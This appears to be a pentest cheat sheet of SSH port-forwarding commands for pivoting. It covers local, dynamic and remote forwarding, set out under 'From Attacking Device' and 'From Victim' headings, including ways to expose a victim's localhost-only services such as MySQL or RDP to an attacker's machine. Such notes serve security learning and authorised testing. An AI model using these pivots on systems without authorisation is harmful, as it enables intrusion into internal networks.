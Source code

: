 ### From Attacking Device

#### Connect to a port on another device

```bash
ssh -N -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh -N -L 3389:10.1.1.10:3389 [user]@[target]
```

```bash
sudo ssh -N -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

### Dynamic Port Forwarding:

```bash
sudo ssh -N -D 127.0.0.1:1080 [user]@[target]
```

### From Victim

This setup creates a new port on the attacker's machine `[target]`, which forwards traffic originating from the victim's machine (`127.0.0.1`). If a service (e.g., MySQL on port `3306`) is only accessible locally on the victim (`127.0.0.1:3306`), SSH remote port forwarding can be used to expose it to the attacker's machine.

```bash
ssh -N -R [local_port]:127.0.0.1:[target_port] [user]@[target]
```

or, to restrict access to a specific IP on the attacker's machine:

```bash
ssh -N -R [attacker_ip]:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example

```bash
ssh -N -R 3389:127.0.0.1:3389 [user]@[target]
ssh -N -R 10.10.5.1:3389:127.0.0.1:3389 [user]@[target]
```